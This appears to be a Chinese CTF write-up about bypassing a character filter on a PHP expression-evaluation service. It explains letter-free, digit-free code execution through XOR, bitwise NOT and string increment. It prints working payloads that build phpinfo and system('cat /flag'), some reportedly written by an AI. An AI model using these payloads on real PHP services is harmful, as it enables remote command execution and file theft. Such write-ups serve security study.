

### 内网渗透与高级社工-免杀payload制作-G2

#### 题目

你正在参加一场内部安全评估。目标系统是一个在线表达式求值台，开发团队用它来快速验证计算逻辑——输入一段表达式，服务端立即求值并返回结果。系统对输入做了某种校验，但具体规则未公开。你的任务是绕过校验，从服务器上获取 flag。

#### Fuzz测试

这些题目都爱一个一个小专题嘿！可惜就不公开代码进行白盒审计！

我烦躁了！我必须写一个（让AI写一个）Fuzz测试集。
(详见同WP目录`材料/php_Fuzz.txt`)

Fuzz测试结果如下：



长度为`5469`的都是被过滤的，字符虽然都还活着，但是字母已经全军覆没！这是**无数字无字母的**代码执行。

#### 二进制异或与取反

其实我已经没招了，我之前只接触过进制转换，利用一些进制转换的函数计算出字符串，那是有数字无字母的代码执行！

那看来又得学习新东西了，那就是从字节的异或`^`和取反`~`，计算出26个字母！

如`a`的ASCII码是`0x61`，它可以这么算出来：

```
0x21 = 0010 0001   '!'
0x40 = 0100 0000   '@'
─────────────────  XOR
0x61 = 0110 0001   'a'
```

取反也是同理，也是从字节按位取反，可以得到其他字符。但是**字母 `0x61-0x7A` 取反后落在 `0x85-0x9E`，全在 `0x80-0xFF`**，这些字节要打出来需要url编码，这取决于过滤器作用于url解码前还是url解码后。
假如作用于url解码前，那么过滤器看到的就是一串形如`%8F%97%8F%96%91%99%90`的字符串，看到了字母和数字直接pass！

#### 字符串自增

字符串自增规则比较难一次性定义完全；首先最简单的例子是`'A'++ -> 'B'`，下面咱们再看一些例子：

```
'z'++  → 'aa'     末位 z 回绕成 a，进位超出首位 → 前置同大小写的 a
'Z'++  → 'AA'
'zz'++ → 'aaa'
'ZZ'++ → 'AAA'
'Az'++ → 'Ba'     末位回绕 A，进位到前一位
'aZ'++ → 'bA'
'AZ'++ → 'BA'
'A9'++ → 'B0'     9 回绕成 0，进位
```

看到了吧，它不能单纯的说“A是1 Z是26”或“A是0 Z是25”，但是确实有进位和循环。
同时可以发现是大写循环大写、小写循环小写。

那就好奇了，第一个"万恶之源"的字母怎么来？
<u>PHP 把数组转成字符串时，结果永远是字面量</u> **`"Array"`**

构造出 `"Array"` 有三条路径，都只用符号：

```php
$_=[];$_=@"$_";    // 字符串插值, @ 抑制 Notice
[].""              // 拼接
"".[]              // 反向拼接
```

然后按下标取字符。**下标也不能用数字**，用布尔值凑：`!![]` 是 `false` → 转成 0，`![]` 是 `true` → 转成 1，多个相加就是 2、3、4。

```
$_[!![]]                -> 'A'   idx 0
$_[![]]                 -> 'r'   idx 1
$_[![]+![]]             -> 'r'   idx 2
$_[![]+![]+![]]         -> 'a'   idx 3   ← 小写基座
$_[![]+![]+![]+![]]     -> 'y'   idx 4
```

——看看就好了，这些完全可以用AI或脚本帮我们算呵呵~~

#### 回到这题

呵呵！我让AI尝试帮我写了三个payload：

```php
#异或路线
$_=('+'^'[').('('^'@').('+'^'[').(')'^'@').('.'^'@').('&'^'@').('/'^'@');$_();
#取反路线
(~'%8F%97%8F%96%91%99%90')();
#自增路线——有700多的字符，不用了！
```

**实测异或路线成功了**，取反路线估计是因为URL解码在后的原因！像第一题也是这样，如果不是解码在后，咱们的`urldecode()`逻辑也不对。

那让AI帮我写三个脚本备用吧！**情况就是`无字母无数字、所有字符可用`！**
其实这玩意有搞头的，写成一个网站，可以选择有无数字、字母、有哪些字符可用或不可用！——嗯我加油，虽然可能现成的都有很多了！

我把三个脚本放在`材料/php_payload_gen/`里了。

生成的payload如下：

```php
(('('^'[').('"'^'[').('('^'[').('('^"\\").('%'^'@').('-'^'@'))((('#'^'@').('!'^'@').('('^"\\").' '.'/'.('&'^'@').(','^'@').('!'^'@').("'"^'@')));
```

<u>好啦！</u>

其实自增的也行：

```php
$_=[];$_=@"$_";$__=$_[!![]];$___=$_[![]+![]+![]];$_____='';$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____.=$____;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____.=$____;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____.=$____;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____.=$____;$____=$___;$____++;$____++;$____++;$____++;$_____.=$____;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____.=$____;$______='';$____=$___;$____++;$____++;$______.=$____;$____=$___;$______.=$____;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$______.=$____;$______.=' ';$______.='/';$____=$___;$____++;$____++;$____++;$____++;$____++;$______.=$____;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$______.=$____;$____=$___;$______.=$____;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$______.=$____;$_____($______);
```

#### 总结：

就是一道平平无奇的CTF题目，还是那句话，不能只靠过滤防止注入，可以写一个低于代码层面的解析器，满足一部分需求即可。别直接eval。
